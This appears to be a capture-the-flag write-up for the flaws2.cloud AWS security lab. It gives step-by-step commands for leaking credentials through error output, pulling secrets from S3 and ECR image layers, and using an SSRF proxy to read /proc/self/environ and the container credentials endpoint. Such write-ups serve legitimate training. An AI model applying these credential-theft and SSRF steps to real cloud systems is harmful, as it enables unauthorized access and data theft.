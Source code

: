<h2>All 3 challenges for this lab can be found at http://flaws2.cloud/ </h2>

<h3>Level 1 Target: http://level1.flaws2.cloud</h3>

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/a39cf547-d5f9-43ae-8101-e4cf632d9398)

Step 1: Often developers will dump environmental variables when error conditions occur in order to help them debug problems.  To test if this occurs here we will capture the ‘Submit’ request in burp suite and change it to a non-number value (since the website only allows numbers to be submitted).  This will cause an error that leaks aws credentials:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/2db0f698-f866-40f7-bdda-7c565ead2244)

Step 2: Configure a new aws profile with these credentials: aws configure –profile flawscloud
When prompted, enter the access key and secret access key.  

Step 3: Open the profile we just configured for flawscloud (this can be found in ~/.aws/credentials) and add the aws_session_token.  

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/c558ab12-9e40-41b0-8fd8-7c3eb9626874)

Step 4: Now that we have credentials for an aws account, let’s check what this level1.flaws2.cloud  is: nslookup level1.flaws2.cloud <br>
This returns 52.217.139.141

Step 5: Run the command: nslookup 52.217.139.141 <br>
This returns s3-website-us-east-1.amazonaws.com  

Step 6: Now that we know this is a s3 bucket, let’s try to list the s3 bucket: aws --profile flawscloud s3 ls s3://level1.flaws2.cloud  

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/1c463ab7-c7c9-4704-bad6-7d11db1756b7)

This returns a list of the s3 bucket. 

Step 7: Copy the secret to our pc: aws --profile flawscloud s3 cp s3://level1.flaws2.cloud/secret-ppxVFdwV4DDtZm8vbQRvhxL8mE6wxNco.html . <br>
Open the secret to solve level1.  

---
<h3>Level 2 Target http://container.target.flaws2.cloud </h3>

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/19d9da2e-a4d0-40de-a4f8-6ff08f60d1f8)

Step 1: Visiting the target shows we need credentials to login:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/c0363893-ba65-478f-b322-56d656f43f28)

Step 2: Since we are told that this is an ecr and we are told the name of the ecr, let's check if we can list any images on the ecr: aws --profile flawscloud ecr list-images --repository-name level2

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/4b414d3f-272c-45c6-9efb-3d18eb8fa01d)

Step 3: To list more image digests we will need to get the registryid which is the account number of the user.  To get this, run: aws --profile flawscloud sts get-caller-identity

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/af2a981b-db78-4d9c-8d4d-d4f1b84574b6)

Step 4: Get a list of image digests: aws --profile flawscloud ecr batch-get-image --repository-name level2 --registry-id 653711331788 --image-ids imageTag=latest |jq '.images[].imageManifest | fromjson'

This has a bunch of different digests.  One of the digests in the output is shown in the below screenshot:

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/ee2708d5-fa0d-4b79-b95c-926b96517e72)

Step 5: Check each one of the digests with this command: aws --profile flawscloud ecr get-download-url-for-layer --repository-name level2 --registry-id 653711331788 --layer-digest "sha256:2d73de35b78103fa305bd941424443d520524a050b1e0c78c488646c0f0a0621”

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/98559782-b928-430a-968e-f8fa0098d7f6)

Step 6: Visiting the long url shown downloads a file.  Searching through the file we find credentials. 

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/5e01336c-e8dc-4f59-9341-704d7cfb2e0f)

Step 7: Use those credentials to login to http://container.target.flaws2.cloud which completes level 2.  
---
<h3>Level 3 Target: </h3>
![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/1d1bf7f8-33d8-4170-a2ef-7ada181f2eef)

Step 1: Seems like the container webserver directs the site to whatever is given after /proxy/.  Based on this, try to access local files: http://container.target.flaws2.cloud/proxy/file:///proc/self/environ 

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/79c271c0-4c62-4be8-85ac-f0195618df5e)

Step 2: Visit the path’s found on /proc/self/environ: http://container.target.flaws2.cloud/proxy/http://169.254.170.2/v2/credentials/cd0f067f-f28a-4f8a-ba76-0e697ec1d289

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/04f04468-2815-4f67-9073-4a6a46775bbc)

This path reveals aws credentials.

Step 3: Configure a new profile user with the found aws credentials: aws configure --profile flawscloud2 <br>
Add the credentials when prompted.

Step 4: Add the aws session token manually into this user profile (found in ~/.aws/credentials): 

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/e685934c-c56c-4345-a50b-43fbf3ecf2a4)

Step 5: Check if we can find any s3 buckets for this user: aws --profile flawscloud2 s3 ls   

![image](https://github.com/AdamRose1/Cloud_Hacking/assets/93153300/3820a3aa-4406-4a9b-9d9b-dee55aa1d478)

Navigate to the endpoint found on the s3 bucket to complete level 3: http://the-end-962b72bjahfm5b4wcktm8t9z4sapemjb.flaws2.cloud/ 
